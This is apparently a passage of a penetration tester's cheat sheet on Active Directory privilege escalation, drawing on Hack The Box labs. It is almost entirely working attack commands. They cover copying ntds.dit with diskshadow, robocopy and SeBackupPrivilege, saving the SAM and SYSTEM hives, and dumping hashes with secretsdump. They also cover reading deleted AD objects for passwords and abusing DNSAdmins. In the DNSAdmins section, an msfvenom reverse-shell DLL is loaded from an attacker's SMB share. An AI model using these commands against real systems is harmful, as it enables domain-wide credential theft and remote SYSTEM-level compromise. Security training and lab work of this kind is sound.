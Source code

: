 ```bash

## run diskshadow
diskshadow -s disk.txt

# 2 copy ntds, robocopy
cd c:\temp
robocopy /B F:\Windows\NTDS .\ntds ntds.dit

# copy ntds, Copy-FileSeBackupPrivilege; also called local attack.
## https://github.com/giuliano108/SeBackupPrivilege
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Copy-FileSeBackupPrivilege F:\Windows\NTDS\ntds.dit c:\temp\ntds.dit

# 3 save system and sam
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam

# 4 dump the creds. sam not necessary.
secretsdump.py -ntds ntds.dit -system system local
```

#### Recycle bin
+ have permission to read deleted AD object. Something juicy information can be found in there(passwod); htb cascade

```bash
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *

# query deleted ad object
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

# query deleted ad object, tempadmin
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```

#### Dnsadmins
+ member of the DNSAdmins group or have write privileges to a DNS server object can load an arbitrary DLL with SYSTEM privileges on the DNS server.
+ Execute arbitrary DLL, privesc; make the DNS server load an arbitrary DLL with SYSTEM privileges (DNS service runs as NT AUTHORITY\SYSTEM). can load local or remote file
+ about opsec, check htb resolute ipsec video.

```bash
# check dnsadmin group members 
Get-NetGroupMember -Identity "DnsAdmins" -Recurse

# Execute arbitrary DLL
## not opsec, will hang the dns service.
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll

## msf generate payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=443 -f dll -o rev.dll

## execute 
dnscmd  /config /serverlevelplugindll \\10.10.14.90\share\rev.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns

```
